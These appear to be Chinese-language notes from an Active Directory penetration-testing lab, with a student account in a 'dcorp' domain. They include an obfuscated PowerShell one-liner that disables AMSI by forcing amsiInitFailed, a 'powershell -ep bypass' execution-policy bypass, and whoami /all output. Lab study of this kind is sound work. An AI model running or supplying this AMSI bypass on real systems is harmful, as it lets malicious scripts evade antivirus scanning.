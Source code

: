 # 客户端远程连接
下载工具：
https://mremoteng.org/download


# 绕过AMSI
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

# 绕过powershell执行策略
```
powershell -ep bypass
```

# Learning Objective - 1

## 我是谁
```

PS C:\AD> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ==============================================
dcorp\student366 S-1-5-21-1874506631-3219952063-538504511-45144


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-1874506631-3219952063-538504511-1116 Mandatory group, Enabled by default, Enabled group
```